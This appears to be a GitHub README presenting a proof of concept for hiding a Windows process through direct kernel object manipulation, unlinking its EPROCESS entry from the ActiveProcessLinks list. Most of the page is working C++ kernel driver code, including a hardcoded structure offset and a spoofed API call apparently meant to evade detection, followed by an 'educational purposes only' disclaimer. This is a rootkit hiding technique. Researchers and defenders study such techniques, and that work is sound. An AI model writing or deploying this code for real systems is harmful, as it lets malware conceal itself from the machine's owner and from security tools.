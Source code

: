 # DKOM-Process-Unlinker
**POC for Kernel-Level Process Hiding via Direct Kernel Object Manipulation (DKOM)**

This project demonstrates a minimalistic Proof of Concept (POC) for hiding a process in Windows kernel mode by directly manipulating kernel objects **(DKOM - Direct Kernel Object Manipulation)**.
It unlinks a target process's **EPROCESS** structure from the ActiveProcessLinks list, making the process invisible to standard process enumeration tools like Task Manager.

---

```cpp
// Hides a process from the active process linked list in the kernel
NTSTATUS HideProcess(int processId)
{
    PEPROCESS targetProcess = nullptr;

    // Look up the process object by its PID
    NTSTATUS status = ace_spoof(PsLookupProcessByProcessId)((HANDLE)processId, &targetProcess);
    if (!NT_SUCCESS(status) || !targetProcess)
    {
        return STATUS_UNSUCCESSFUL;
    }

    // Get the ActiveProcessLinks entry from the EPROCESS structure
    LIST_ENTRY* activeProcessLinks = (LIST_ENTRY*)((CHAR*)targetProcess + 0x448);

    // Unlink the process from the active process list
    LIST_ENTRY* prevEntry = activeProcessLinks->Blink;
    LIST_ENTRY* nextEntry = activeProcessLinks->Flink;

    prevEntry->Flink = nextEntry;
    nextEntry->Blink = prevEntry;

    return STATUS_SUCCESS;
}
```
---

## Disclaimer

This project is for **educational and research purposes only**.  
I do **not** condone or support malicious use of this information.  
Use responsibly, in controlled environments, and at your own risk.

---


